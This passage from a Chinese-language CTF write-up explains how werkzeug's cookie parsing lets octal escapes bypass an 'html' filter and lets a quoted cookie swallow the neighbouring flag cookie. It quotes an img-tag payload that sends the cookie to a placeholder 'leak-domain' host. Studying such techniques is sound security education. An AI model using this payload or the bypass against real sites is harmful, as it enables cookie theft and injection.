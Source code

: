 ```javascript
window.onload = () => {
    const params = (new URLSearchParams(window.location.search));
    if (params.get("settings")) {
        window.settings = getSettings(params.get("settings"));
        saveSettings(window.settings);
        renderSettings(window.settings);
    } else {
        window.settings = getCookie("settings");
    }
    window.settings = JSON.parse(window.settings);
```

那这题到底要怎么解呢？这一切都与 werkzeug 解析 cookie 时的逻辑有关。

先来讲如何绕过那个 html 的检查，在 werkzeug 里面如果你的 cookie value 是用 `""` 包住的话，会先进行 decode，因此 `"\150tml"` 会被 decode 成 `"html"` ，就可以绕过对于 html 关键词的检查。

但绕过之后，要怎么拿到 flag 呢？这就要用到 werkzeug 第二个解析 cookie 的特殊之处了。当 werkzeug 在解析 cookie 时，如果碰到 `"` 时，就会解析到下一个 `"` 为止。

 举例来说，假设 cookie 的内容是这样：

```none
Cookie: cookie1="abc; cookie2=def";
```

 最后得到的结果会是： `"cookie1": "abc; cookie2=def"`

也就是说，如果我们在 flag 的前后各夹一个 cookie，就可以让 flag 包含在 html 里面，让 flag 的内容出现在 html 中，再用其他任何方式把 cookie 拿走，底下直接用作者的 payload：

```none
Cookie: settings="{\"\150tml\": "<img src='https://leak-domain/?cookie= ;flag=GH{FAKE_FLAG}; settings='>\"}"
```

看完这题才突然想到以前 DiceCTF 2023 也出现过类似的题目，那时候是 jetty 有这个行为：Web - jnotes（6 solves），看来搞不好还不少 web framework 有这个 parsing 行为。

[#Security](https://blog.huli.tw/tags/Security/)

[↓↓↓](https://blog.huli.tw/2023/11/27/server-side-rendering-ssr-and-isomorphic/)  
  
从历史的角度探讨多种 SSR（Server-side rendering）  
  
[↑↑↑](https://blog.huli.tw/2023/11/27/server-side-rendering-ssr-and-isomorphic/)
